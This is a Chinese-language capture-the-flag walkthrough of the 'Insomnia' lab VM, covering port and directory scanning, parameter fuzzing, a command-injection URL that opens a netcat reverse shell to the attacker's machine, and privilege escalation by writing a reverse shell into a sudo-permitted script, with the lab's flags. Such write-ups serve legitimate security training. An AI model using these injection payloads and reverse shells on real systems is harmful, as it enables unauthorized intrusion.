

# Insomnia

:::note

[Linux VM] [Tested on VirtualBox] created by || alienum

⏲️ Release Date // 2021-01-28

✔️ MD5 // f6808bfec80c7348aeb449d9f2305bbd

☠ Root // 102

💀 User // 108

📝Notes //
This admin is very careless.

:::

## 靶机启动


靶机 IP：

```plaintext
192.168.56.112
```

## nmap 信息搜集

```plaintext
Nmap scan report for 192.168.56.112
Host is up (0.00054s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
8080/tcp open  http    PHP cli server 5.5 or later (PHP 7.3.19-1)
|_http-title: Chat
|_http-open-proxy: Proxy might be redirecting requests
MAC Address: 08:00:27:D8:30:07 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
```

## 探测 web 服务

尝试直接访问



发现类似于一个在线聊天平台，并且经过探测，发现存在 XSS 攻击的可能性

尝试进行目录扫描，得到以下路径

```plaintext
[20:22:07] 200 -   65B  - /administration.php
[20:22:10] 200 -    2KB - /chat.js
[20:22:25] 200 -   20B  - /start.sh
```

## 对 `/administration.php` 文件进行 fuzz 攻击

```bash
┌─[✗]─[randark@randark-Parrot]─[~/tmp]
└──╼ $wfuzz -w /usr/share/wfuzz/wordlist/general/common.txt --hh 65 'http://192.168.56.112:8080/administration.php?FUZZ=test'
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.56.112:8080/administration.php?FUZZ=test
Total requests: 951

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000485:   200        2 L      12 W       69 Ch       "logfile"

Total time: 2.479255
Processed Requests: 951
Filtered Requests: 950
Requests/sec.: 383.5828
```

发现存在参数口：`logfile`

经过尝试，其可以执行命令注入

```plaintext
http://192.168.56.112:8080/administration.php?logfile=;nc%20192.168.56.102%209999%20-e%20/bin/bash;
```

成功得到 shell 会话

```bash
┌─[randark@randark-Parrot]─[~]
└──╼ $pwncat-cs -lp 9999
[20:29:03] Welcome to pwncat 🐈!                                                                                                                                                                                            __main__.py:164
[20:29:45] received connection from 192.168.56.112:47920                                                                                                                                                                         bind.py:84
[20:29:46] 192.168.56.112:47920: registered new host w/ db                                                                                                                                                                   manager.py:957
(local) pwncat$ back
(remote) www-data@insomnia:/var/www/html$ whoami
www-data
(remote) www-data@insomnia:/var/www/html$
```

## 提权探测

```plaintext title="sudo -l"
Matching Defaults entries for www-data on insomnia:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on insomnia:
    (julia) NOPASSWD: /bin/bash /var/www/html/start.sh
```

```plaintext title="find / -perm -u=s -type f 2>/dev/null"
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/mount
/usr/bin/passwd
/usr/bin/su
/usr/bin/umount
/usr/bin/newgrp
```

```plaintext title="getcap -r / 2>/dev/null"
/usr/bin/ping = cap_net_raw+ep
```

由于 `julia` 用户可以在无需密码的情况下执行 `/var/www/html/start.sh` 文件，并且 `/var/www/html/start.sh` 文件是 `www-data` 用户可以控制的，于是存在提权可能性

将 bash 反弹 shell 的 poc 写入 `/var/www/html/start.sh` ，然后执行

```bash
sudo -u julia /bin/bash /var/www/html/start.sh
```

即可收到反连的shell会话

```bash
┌─[randark@randark-Parrot]─[~/tmp]
└──╼ $pwncat-cs -lp 8888
[20:35:57] Welcome to pwncat 🐈!                                                                                      __main__.py:164
[20:38:27] received connection from 192.168.56.112:55218                                                                   bind.py:84
[20:38:27] 192.168.56.112:55218: registered new host w/ db                                                             manager.py:957
(local) pwncat$ back
(remote) julia@insomnia:/var/www/html$ whoami
julia
(remote)
```

## user pwned

```bash
(remote) julia@insomnia:/home/julia$ cat user.txt 

~~~~~~~~~~~~~\
USER INSOMNIA
~~~~~~~~~~~~~
Flag : [c2e285cb33cecdbeb83d2189e983a8c0]
```

:::warning

此靶机的服务极容易被打挂掉，如果前面修改了 `/var/www/html/start.sh` 的文件内容，会导致即使靶机重启后也无法启动web服务，导致死题

:::

后续得到 `julia` 的权限之后，可以通过计划任务来进行进一步的提权

## root pwned

```plaintext title="/root/root.txt"

~~~~~~~~~~~~~~~\
ROOTED INSOMNIA
~~~~~~~~~~~~~~~
Flag : [c84baebe0faa2fcdc2f1a4a9f6e2fbfc]

by Alienum with <3
```